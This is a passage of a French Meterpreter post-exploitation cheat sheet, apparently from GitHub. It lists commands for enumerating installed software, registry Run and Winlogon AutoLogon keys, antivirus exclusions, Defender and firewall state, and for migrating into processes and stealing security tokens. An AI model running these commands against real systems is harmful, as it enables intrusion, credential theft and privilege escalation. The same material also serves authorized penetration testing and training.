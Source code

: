 ### Applications installées
| Commande | Description |
|----------|-------------|
| `run post/windows/gather/enum_applications` | Applications installées |
| `shell` puis `wmic product get name,version` | Produits installés |

---

## 📋 7. Énumération du registre

### Clés importantes
| Commande | Description |
|----------|-------------|
| `reg queryval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` | Programmes de démarrage |
| `reg queryval -k HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run` | Démarrage utilisateur |
| `reg queryval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\NT\\CurrentVersion\\Winlogon` | AutoLogon |

### Scripts Meterpreter pour le registre
| Commande | Description |
|----------|-------------|
| `run post/windows/gather/enum_av_excluded` | Exclusions antivirus |
| `run post/windows/gather/enum_tokens` | Tokens de sécurité |

---

## 🔒 8. Sécurité et antivirus

### Détection de sécurité
| Commande | Description |
|----------|-------------|
| `run post/windows/gather/enum_av_excluded` | Exclusions antivirus |
| `shell` puis `wmic /namespace:\\\\root\\securitycenter2 path antivirusproduct` | Antivirus installés |
| `shell` puis `sc query windefend` | Windows Defender |
| `shell` puis `netsh advfirewall show allprofiles` | Configuration firewall |

---

## 💻 9. Processus et privilèges

### Gestion des processus
| Commande | Description |
|----------|-------------|
| `ps` | Liste des processus |
| `migrate <pid>` | Migrer vers un processus |
| `getprivs` | Privilèges actuels |
| `steal_token <pid>` | Voler un token |
